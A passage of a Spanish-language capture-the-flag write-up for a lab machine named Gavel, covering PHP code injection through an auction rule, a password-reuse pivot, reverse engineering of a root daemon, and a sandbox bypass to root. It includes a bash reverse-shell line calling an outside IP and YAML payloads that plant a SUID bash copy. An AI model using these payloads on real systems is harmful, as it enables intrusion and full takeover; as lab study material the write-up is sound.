bool runkit_function_add ( string funcname, string arglist, string code )

// funcname:   Name of function to be created
// arglist:    Comma separated argument list 
// code:       Code making up the function 

// EJEMPLO:
runkit_function_add('testme','$a,$b','echo "The value of a is $a\n"; echo "The value of b is $b\n";');
testme(1,2);

//Output:
// The value of a is 1
// The value of b is 2
```

Así que en este caso:

```php
runkit_function_add('ruleCheck', '$current_bid, $previous_bid, $bidder', $rule);

// ruleCheck es el nombre de la función
// current_bid, previous_bid y bidder son argumentos
// rule es el código que hace la función
```

Es decir, que podemos meter código arbitrario directamente, como:

```php
exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.15.75/4444 0>&1'");
```

Lo metemos a una puja, intentamos comprarla y:

```bash
$ penelope -i 10.10.15.75
[+] Listening for reverse shells on 10.10.15.75:4444 
[+] Got reverse shell from gavel~10.129.242.203-Linux-x86_64 Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python3!

www-data@gavel:/var/www/html/gavel/includes$
```

## Privesc 1: www-data -> auctioneer

Una vez hemos entrado como `www-data` y tras hacer un poco de enumeración, encontramos lo siguiente:

```bash
www-data@gavel:/$ ls -al
total 76
drwxr-xr-x  19 root root  4096 Nov  5 12:46 .
drwxr-xr-x  19 root root  4096 Nov  5 12:46 ..
-rw-r--r--   1 root root   315 Oct  3 20:04 invoice.txt
...

www-data@gavel:/$ cat invoice.txt 
==================== GAVEL AUCTION INVOICE ====================

Date: Fri Oct  3 20:04:43 2025


No.  Winner          Item Name
---------------------------------------------------------------
No items won.

================================================================
```

Puede ser que se trate de un cronjob que además se ejecuta como root, así que miramos en `/etc`:

```bash
www-data@gavel:/$ ls -al /etc/cron*
-rw-r--r-- 1 root root 1136 Mar 23  2022 /etc/crontab

/etc/cron.d:
total 20
drwxr-xr-x   2 root root 4096 Jul 29  2025 .
drwxr-xr-x 102 root root 4096 Nov  5 12:47 ..
-rw-r--r--   1 root root  102 Mar 23  2022 .placeholder
-rw-r--r--   1 root root  201 Jan  8  2022 e2scrub_all
-rw-r--r--   1 root root  712 Jan 28  2022 php
```

Ahí vemos un `php`:

```bash
www-data@gavel:/$ cat /etc/cron.d/php 
# /etc/cron.d/php@PHP_VERSION@: crontab fragment for PHP
#  This purges session files in session.save_path older than X,
#  where X is defined in seconds as the largest value of
#  session.gc_maxlifetime from all your SAPI php.ini files
#  or 24 minutes if not defined.  The script triggers only
#  when session.save_handler=files.
#
#  WARNING: The scripts tries hard to honour all relevant
#  session PHP options, but if you do something unusual
#  you have to disable this script and take care of your
#  sessions yourself.

# Look for and purge old sessions every 30 minutes
09,39 *     * * *     root   [ -x /usr/lib/php/sessionclean ] && if [ ! -d /run/systemd/system ]; then /usr/lib/php/sessionclean; fi
```

Pero resulta no ser nada relevante.

Aunque antes hayamos probado con las credenciales `auctioneer`:`midnight1` y no funcionase, pruebo de nuevo a hacer `su auctioneer`:

```bash
www-data@gavel:/$ su auctioneer
Password: # midnight1
auctioneer@gavel:/$ 
```

El motivo por el que ahora nos ha dejado pero antes no nos dejaba entrar por ssh es el siguiente:

```bash
auctioneer@gavel:/$ cat /etc/ssh/sshd_config | grep -i 'DenyUsers'
DenyUsers auctioneer
```

Hay una configuración explícita que hace que no podamos conectarnos por ssh aunque sepamos la contraseña.

## Privesc 2: auctioneer -> root

Antes ya habíamos encontrado el archivo `/invoice.txt`, podemos intentar buscar de dónde sale porque posiblemente sea el vector de escalada de privilegios que buscamos. Dado que el archivo lo había creado root pero todo lo que tiene que ver con la web se ejecuta con privilegios menores (www-data), es posible que se trate de un script o binario en el sistema.

Tras una búsqueda, encontramos el binario `/usr/local/bin/gavel-util`, que hace lo siguiente:

```bash
auctioneer@gavel:/usr/local/bin$ gavel-util 
Usage: gavel-util <cmd> [options]
Commands:
  submit <file>           Submit new items (YAML format)
  stats                   Show Auction stats
  invoice                 Request invoice

auctioneer@gavel:/usr/local/bin$ gavel-util stats
=================== GAVEL AUCTION DASHBOARD ===================
[Active Auctions]
ID   Item Name                      Current Bid   Ends In
355  Amulet of Slight Luck          1608          01:35
356  Cursed Mirror Shard            1469          01:58
357  Potion of Eternal Wakefulness  1149          01:58
```

Además encontramos un directorio `/opt/gavel` con varios archivos:

```bash
auctioneer@gavel:/opt/gavel$ tree -a
.
├── .config
│   └── php
│       └── php.ini
├── gaveld
├── sample.yaml
└── submission  [error opening dir]

$ file gaveld 
gaveld: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=3b8b1b784b45ddabaf9ca56b06b62d4f59f68a0d, for GNU/Linux 3.2.0, not stripped

$ cat /opt/gavel/.config/php/php.ini
engine=On
display_errors=On
display_startup_errors=On
log_errors=Off
error_reporting=E_ALL
open_basedir=/opt/gavel
memory_limit=32M
max_execution_time=3
max_input_time=10
disable_functions=exec,shell_exec,system,passthru,popen,proc_open,proc_close,pcntl_exec,pcntl_fork,dl,ini_set,eval,assert,create_function,preg_replace,unserialize,extract,file_get_contents,fopen,include,require,require_once,include_once,fsockopen,pfsockopen,stream_socket_client
scan_dir=
allow_url_fopen=Off
allow_url_include=Off

$ cat sample.yaml 
---
item:
  name: "Dragon's Feathered Hat"
  description: "A flamboyant hat rumored to make dragons jealous."
  image: "https://example.com/dragon_hat.png"
  price: 10000
  rule_msg: "Your bid must be at least 20% higher than the previous bid and sado isn't allowed to buy this item."
  rule: "return ($current_bid >= $previous_bid * 1.2) && ($bidder != 'sado');"
```

Si nos fijamos, el archivo `gaveld` es además un servicio en ejecución ejecutándose como root:

```bash
auctioneer@gavel:/opt/gavel/.config/php$ ps aux | grep gavel
root        1001  0.0  0.1  19128  6084 ?        Ss   Mar10   0:00 /opt/gavel/gaveld
...
```

Si miramos exactamente qué syscalls hace `gavel-util stats` cuando lo ejecutamos:

```bash
auctioneer@gavel:/opt/gavel/.config/php$ strace -e trace=file,network,ipc -s 1000 gavel-util stats
...[SNIP]...
socket(AF_UNIX, SOCK_STREAM, 0)         = 3
connect(3, {sa_family=AF_UNIX, sun_path="/var/run/gaveld.sock"}, 110) = 0
```

Vemos que efectivamente intenta conectarse con `/var/run/gaveld.sock` (un socket de Unix), que, dado el nombre, podemos intuir que es `/opt/gavel/gaveld`.

### Reverse Engineering

Es muy probable que simplemente hubiese que fijarse en cómo reaccionan `gaveld` y `gavel-util` ante ciertos inputs, y simplemente mandar uno malicioso una vez se supiese qué les podría hacer fallar, pero por curiosidad, decido copiar `gavel-util` a mi máquina Kali y descompilarlo con Ghidra.



Ahí encuentro varias funciones:

```c
// MAIN(): Crea un socket Unix "/var/run/gaveld.sock" y lo pone en escucha, hace que solo root y los usuarios del grupo
//         gavel-seller puedan conectarse. Cuando llega una conexión, hace fork() y la manda a handle_conn()
int main(void);

// HANDLE_CONN(): Comprueba que el usuario que se conecta es o root o del grupo gavel-seller. Parsea el contenido leído
//                como un objeto JSON. Extrae el campo "op" y comprueba que sea "submit" o "stats", hace una cosa u otra
//                en función del valor.
void handle_conn(int socket);

// PHP_SAFE_RUN(): Busca una configuración php.ini, genera un payload usando un parámetro de la función, hace un fork
//                 y ejecuta (como hijo) el código PHP. Al terminar, el padre devuelve 0 o 1 en fn de si el proceso
//                 hijo termina bien o no.
long php_safe_run(undefined8 ptr_to_json_obj_src, undefined8 arg_formato, char *addr_buffer, long sizebuffer);

// READN(): Intenta escribir "buffersize" datos del fd hacia el buffer, hasta que no quedan más datos por escribir.
long readn(int fd, void *buffer, size_t maxBytesToRead);

// WRITEN(): Intenta escribir "buffersize" datos guardados en el buffer hacia el fd, hasta que no quedan 
//           más datos por escribir.
long writen(int fd, void *buffer, size_t buffersize);

// SEND_RESPONSE(): Manda la longitud de "string" al fd primero (4 bytes), acto seguido manda el string entero 
//                  en Big-Endian (Hace uso de writen y readn).
void send_response(int fd, char *string);
```

Tenemos varias funciones, pero las más relevantes son `handle_conn()` y `php_safe_run()`.

#### Resumen funcionamiento `gaveld`

El proceso de vida del daemon y en específico de una regla que pasamos con submit sería el siguiente:

1. **INICIO DEL DAEMON y CONEXIÓN**

* `main()` crea el socket `/var/run/gaveld.sock` y lo pone en escucha. Luego espera conexiones entrantes.
* Cuando llega una conexión, crea un proceso hijo y la redirige a él. El proceso hijo inicia `handle_conn()`
* `handle_conn()` comprueba usuario y grupo de quien se conecta, si es correcto parsea el contenido recibido como un objeto JSON.
* Del objeto JSON saca el campo "`op`", que debe ser "`submit`" o "`stats`", si no da error.

2. **PARSEO YAML, PASO A PHP\_SAFE\_RUN**

* Si el campo es "`submit`", inicia un parser de YAML que extrae los valores `name`, `description`, `image`, `price`, `rule_msg` y `rule` del cuerpo.
* Si todos los campos existen y la longitud de `rule` es menor a 1KiB, se pasa la regla a `php_safe_run()`

3. **EJECUCIÓN DE LA REGLA**

* Busca una clave "`env`" y dentro una subclave "`RULE_PATH`".
* Si NO la encuentra, usa el valor default `/opt/gavel/.config/php/php.ini`, si la encuentra, usa el archivo al que señale.
* Toma el parámetro `arg_formato` pasado a la función y formatea una string usándolo en un placeholder:

```c
__snprintf_chk(destino,0x2000,1,0x2000,
               "function __sandbox_eval() {$previous_bid=%ld;$current_bid=%ld;$bidder=\'%s\';%s};$ res = __sandbox_eval();if(!is_bool($res)) { echo \'SANDBOX_RETURN_ERROR\'; }else if ($res) { echo \'ILLEGAL_RULE\'; }"
               ,0x96,200,"Shadow21A",arg_formato);

// Guarda el string formateado en la variable "destino"
```

Que en PHP haría

```php
function __sandbox_eval() {
    $previous_bid=150; // 0x96
    $current_bid=200;
    $bidder='Shadow21A';
    %s
};
$ res = __sandbox_eval();
if(!is_bool($res)) { echo 'SANDBOX_RETURN_ERROR'; }
else if ($res) { echo 'ILLEGAL_RULE'; }
```

Posteriormente, hace:

```c
args[0] = "/usr/bin/php";
args[1] = "-n";
args[2] = "-c";
args[3] = (char *)(args + 0x12); // Previamente se ha copiado a esta componente el string del .ini
args[4] = "-d";
args[5] = "display_errors=1";
args[6] = "-r";
args[7] = destino; // Código PHP a ejecutar (el de arriba, de __sandbox_eval())
args[8] = (char *)0x0;
pipe = ::pipe(&FD_pipe);
if (-1 < pipe) {
  PID_Hijo = fork();
  if (PID_Hijo < 0) {
    close(FD_pipe);
    close(file_descriptor);
  }
  else {
      ...
            // Pone limiaciones de recursos: Tiempo de CPU (Max: 2s), memoria y demás.
            resource_limit.rlim_cur = 4;
            setrlimit(__RLIMIT_NPROC,&resource_limit);
            execv(args[0],args);
```

Esto ejecuta en el shell el array `args`, que resulta ser esto:

```bash
/usr/bin/php -n -c <ruta_ini> -d display_errors=1 -r <código_php>
```

#### Analizando `gavel-util`

Dado que sabemos que el `php.ini` por defecto bloquea funciones peligrosas y limita nuestro directorio operativo:

```bash
$ grep "disable_functions" /opt/gavel/.config/php/php.ini
open_basedir=/opt/gavel # No podemos hace nada fuera de /opt/gavel
disable_functions=exec,shell_exec,system,passthru,popen,proc_open,proc_close,pcntl_exec,pcntl_fork,dl,ini_set,eval,assert,create_function,preg_replace,unserialize,extract,file_get_contents,fopen,include,require,require_once,include_once,fsockopen,pfsockopen,stream_socket_client
```

Es necesario pasar un parámetro en el json con la ruta a un `php.ini` arbitrario que no contenga estas limitaciones. El problema es que nosotros no especificamos los datos del json, sino que de eso se encarga el cliente `gavel-util`. Para ello, podemos mirar cómo funciona `gavel-util` por dentro. Tras descompilar parte de su código y relacionarlo con el de `gaveld`, su funcionamiento (al usar submit) es algo así:

1. Comprueba que el archivo sea del tamaño (<10MB) y formato adecuado.
2. Abre el archivo y deja todo su contenido en un buffer.
3. Construye un json de la siguiente forma:

```json
{
  "op": "submit",
  "filename": <nombre_archivo>,
  "flags": "",
  "content_length": <tamaño_archivo_en_bytes>,
  "env": <lo_que_devuelva_la_función_collect_env()>
}
```

Y, tras mirar la función `collect_env()`, vemos que toma las variables de entorno y las guarda en un objeto json. Esto significa que ni siquiera hace falta que creemos un script que simule `gavel-util`, basta con ejecutarlo con la variable de entorno `RULE_PATH` puesta a cualquier valor que queramos.

### Explotación

Creamos un `ex.yaml`:

```bash
auctioneer@gavel:/usr/local/bin$ cat /tmp/phpini/ex.yaml 
name: "boligrafo con tapa"
description: "para que no se seque la tinta"
image: "https://example.com:9999/boli"
price: 2
rule_msg: "Your bid must be at least 20% mucho texto"
rule: 'shell_exec("cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash"); return true;'
```

Ponemos `RULE_PATH` a un archivo cualquiera que exista, no necesariamente con un formato de `php.ini` válido. `gaveld` simplemente buscaba el archivo, miraba que existiese y comprobaba que tuviese permisos, pero si lo encuentra, lo intenta leer, y no lo entiende, simplemente lo tomará como una configuración "vacía", es decir, sin restricciones. Ejecutamos `gavel-util`:

```bash
auctioneer@gavel:/usr/local/bin$ RULE_PATH=/etc/passwd /usr/local/bin/gavel-util submit /tmp/phpini/ex.yaml 
Item submitted for review in next auction
```

Pero si buscamos, no aparece nada.

Tras una búsqueda por internet y un rato de debugging, veo que puede ser por dos motivos a la vez:

* Si el binario se ejecuta mediante `systemd`, es posible que tenga la directiva `PrivateTmp=yes`, que hace que tenga su propio directorio privado en `/tmp` y no pueda acceder a otros allí porque cree que su directorio privado es el `/tmp` real. No puede escribir a "nuestro" `/tmp`.
  * Solución: Usar otro directorio, p.ej `/opt/gavel`
* El binario del daemon tenía unos límites muy estrictos de memoria, tiempo de cpu y, sobre todo, **número de procesos hijos**: Un máximo de 4. Si por algún motivo se ha llegado ya al límite, cualquier cosa con `shell_exec()` o `exec()` no funcionará porque implica crear un proceso hijo del shell.
  * Solución: Usar funciones de php directamente que no creen procesos hijos (como `copy()` o `chmod()`).

Así que modificamos el payload:

```ex.yaml
name: "boligrafo con tapa"
description: "para que no se seque la tinta"
image: "https://example.com:9999/boli"
price: 2
rule_msg: "Your bid must be at least 20% mucho texto"
rule: 'copy("/bin/bash", "/opt/gavel/rootbash"); chmod("/opt/gavel/rootbash", 04777); return true;'
```

Probamos a mandarlo de nuevo:

```bash
auctioneer@gavel:/usr/local/bin$ RULE_PATH=/etc/passwd gavel-util submit /tmp/phpini/ex.yaml 
Item submitted for review in next auction

auctioneer@gavel:/usr/local/bin$ ls -la /opt/gavel/rootbash 
-rwsrwxrwx 1 root root 1396520 Mar 12 22:36 /opt/gavel/rootbash

auctioneer@gavel:/usr/local/bin$ /opt/gavel/rootbash -p
rootbash-5.1# 
```

Y tenemos root.
